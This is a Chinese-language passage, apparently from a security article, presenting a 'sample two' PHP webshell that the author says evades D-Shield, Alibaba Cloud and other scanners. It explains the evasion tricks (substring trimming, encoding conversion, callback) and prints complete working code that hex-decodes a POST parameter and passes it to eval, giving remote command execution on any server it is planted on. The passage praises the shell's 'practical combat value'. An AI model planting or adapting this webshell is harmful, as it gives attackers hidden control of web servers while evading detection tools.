 当然这里使用到 `assert` 高危函数，只能用于 `php` 在 `5.*` 的版本，相关姿势读者不妨自行拓展一下哈哈~

### 12.2 样例二

这个免杀马是最近捕获到的，可以轻松过 D 盾、阿里云等一众查杀引擎~

[![](assets/1707954023-90cbbc9418a643b01617a34f94105624.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205143816-24c5663c-c3f1-1.png)

[![](assets/1707954023-330aba3f7fcd35c5de9e6fd283cb6401.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144411-f8779ae0-c3f1-1.png)

这个样例使用了字符串截取 + 编解码转换 + 参数回调的手法，成功规避了正则匹配式，具有实战意义

```plain
<?php
phpinfo();
class Car{
    function encode(){
        $num1=base64_encode($_POST['num']);
        $num=base64_decode($num1);
        echo "1";
        foreach($_POST as $k => $v){
            $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
        }
        @$post=base64_encode($_POST['Qxi*37yz']);
        @$post1=base64_decode(@$post);
        return $post1;
    }
    function Xt(){
        return eval($this->encode());
    }
}
$t=new Car;
$t->Xt();
?>
```
